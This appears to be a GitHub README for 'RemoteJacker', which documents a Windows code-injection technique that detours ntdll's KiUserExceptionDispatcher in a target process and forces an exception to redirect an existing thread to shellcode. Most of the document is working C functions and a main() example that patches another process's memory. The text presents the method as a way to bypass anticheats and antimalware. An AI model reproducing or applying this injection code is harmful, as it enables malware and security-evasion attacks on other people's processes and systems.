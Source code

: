 # RemoteJacker

## Overview

This is about code injection via hijacking threads instead of creating a remote thread. There are methods of code injection where you can create a thread from another process using **CreateRemoteThread** at an executable code location (Or DLL Injection via **CreateRemoteThread** and executing **LoadLibrary**, passing an argument in the **CreateRemoteThread** routine).

There are other ways of code injection to, one of them is hijacking an already running thread. Most methods to do this use **GetThreadContext** and **SetThreadContext**. That method suspends the thread(s) or the process, gets the context of a running thread in a process, writes the extended instruction pointer in the context structure to that of another executable location, then it sets the thread context and resumes the thread(s) or process.

Of course, **CreateRemoteThread** is preferred to not interrupt an application while it's doing something possibly important. Thread hijacking is commonly used to bypass anticheats and antimalware. Antimalware checks for routines that could be used for code injection and are suspicious (**CreateRemoteThread**), while anticheats (espec. kernel-mode anticheats) would attempt to block opening a handle to a thread that they have ownership of from another process. They would also prevent the use of **SetThreadContext** for their threads. The more known a method is, the more anticheats implement ways to obstruct those methods.

**RemoteJacker** detours the SEH dispatcher to an executable code location the developer wants. It causes the thread to redirect to this area by throwing an exception.

```
ULong GetDispatcher(ULong ProcessId)
{
	NTPtr Dispatcher = (NTPtr)GetProcAddress(GetModuleHandleA("ntdll.dll"), "KiUserExceptionDispatcher");
	HANDLE Process = OpenProcess(PROCESS_ALL_ACCESS, FALSE, ProcessId);

	if (!Process)
		return NULL;
	else
		CloseHandle(Process);
	
	ULong Difference = ((ULong)Dispatcher - (ULong)GetModuleHandleA("ntdll.dll"));
	return (GetModuleBase(ProcessId, L"ntdll.dll") + Difference + 1);
}
```

The **GetDispatcher** function gets the virtual address of **KiUserExceptionDispatcher** and returns it as an integral type.

```
ULong MarkShellCode(ULong ProcessId, ULong Shellcode)
{
	HANDLE Process = OpenProcess(PROCESS_ALL_ACCESS, FALSE, ProcessId);
	ULong FormerProtection;

	VirtualProtectEx(Process, (LPVOID)Shellcode, 1, PAGE_EXECUTE_READWRITE, &FormerProtection);

	CloseHandle(Process);
	return FormerProtection;
}
```

The **MarkShellCode** function sets the memory region protections at the executable location (Or Shellcode) and returns the former page protection.

```
void SetDispatcher(ULong ProcessId, ULong Address, ULong ShellCode)
{
	HANDLE Process = OpenProcess(PROCESS_ALL_ACCESS, FALSE, ProcessId);
	ULong FormerProtection;

	VirtualProtectEx(Process, (LPVOID)Address, 1, PAGE_EXECUTE_READWRITE, &FormerProtection);
	WriteHook(Process, GetDispatcher(ProcessId), ShellCode);
	VirtualProtectEx(Process, (LPVOID)Address, 1, FormerProtection, &FormerProtection);

	CloseHandle(Process);
}
```

The **SetDispatcher** function detours KiUserExceptionDispatcher in the target process.

```
void RemoteJack(ULong ProcessId, ULong Target)
{
	HANDLE Process = OpenProcess(PROCESS_ALL_ACCESS, FALSE, ProcessId);
	ULong FormerProtection;

	VirtualProtectEx(Process, (LPVOID)Target, 1, PAGE_EXECUTE_READWRITE, &FormerProtection);
	WriteProcessMemory(Process, (LPVOID)Target, "\xF4", 1, 0);
	VirtualProtectEx(Process, (LPVOID)Target, 1, FormerProtection, &FormerProtection);

	CloseHandle(Process);
}
```

The **RemoteJack** function causes an exception to occur at a thread's instruction pointer and it gets handled by SEH so we can redirect it in the dispatcher.

Here is an example: 

```
int main(void)
{
	ULong PId = FindProcessIdFromProcessName(L"test.exe");
	ULong Dispatcher = GetDispatcher(PId);
	ULong ShellCode = 0x04E90000;
	ULong TargetVal = 0x00C92D50;
	ULong Protection = MarkShellCode(PId, ShellCode);

	SetDispatcher(PId, Dispatcher, ShellCode);
	RemoteJack(PId, TargetVal);

    return 0;
}

```

This hijacks an already existent thread without opening any thread handles and you can choose the location that the thread gets hijacked at, unlike **GetThreadContext & SetThreadContext**. This method is also very simple to implement.
